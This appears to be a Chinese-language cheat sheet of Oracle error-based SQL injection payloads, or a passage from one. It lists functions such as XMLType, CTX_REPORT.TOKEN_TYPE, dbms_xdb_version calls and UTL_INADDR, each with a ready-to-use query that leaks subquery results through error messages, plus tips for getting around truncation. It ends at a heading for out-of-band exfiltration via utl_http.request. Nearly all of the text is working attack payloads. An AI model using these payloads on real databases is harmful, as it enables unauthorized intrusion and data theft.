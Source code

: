 - CTXSYS.CTX_REPORT.TOKEN_TYPE

用于处理文本，参数错误返回异常信息。

```sql
select CTXSYS.CTX_REPORT.TOKEN_TYPE((select user from dual), '123') from dual;
```

- XMLType

XMLType 是 Oracle 系统定义的数据类型，系统预定义了内部函数去访问 XML 数据.

```sql
select XMLType('<:'||(select user from dual)||'>') from dual;
```

调用的时候必须以 `<:` 开头和 `>` 结尾，即 '<:'||balabala||'>' 或者 chr(60)||balabal||chr(62）;如果返回的数据种有空格的话，会自动截断，导致数据不完整，这种情况下需要先转为 hex 后导出，或者使用 replace 函数替换成其他非空字符。

- dbms_xdb_version.checkin

```sql
select dbms_xdb_version.checkin((select user from dual)) from dual;
```

- dbms_xdb_version.makeversioned

```sql
select dbms_xdb_version.makeversioned((select user from dual)) from dual;
```

- dbms_xdb_version.uncheckout

```sql
select dbms_xdb_version.uncheckout((select user from dual)) from dual;
```

- dbms_utility.sqlid_to_sqlhash

```sql
SELECT dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual;
```

- ordsys.ord_dicom.getmappingxpath

```sql
select ordsys.ord_dicom.getmappingxpath((select user from dual), 1, 1) from dual;
```

- UTL_INADDR.get_host_name

```sql
select UTL_INADDR.get_host_name((select user from dual)) from dual;
```

- UTL_INADDR.get_host_address

```sql
select UTL_INADDR.get_host_name('~'||(select user from dual)||'~') from dual;
```

### OOB

- utl_http.request
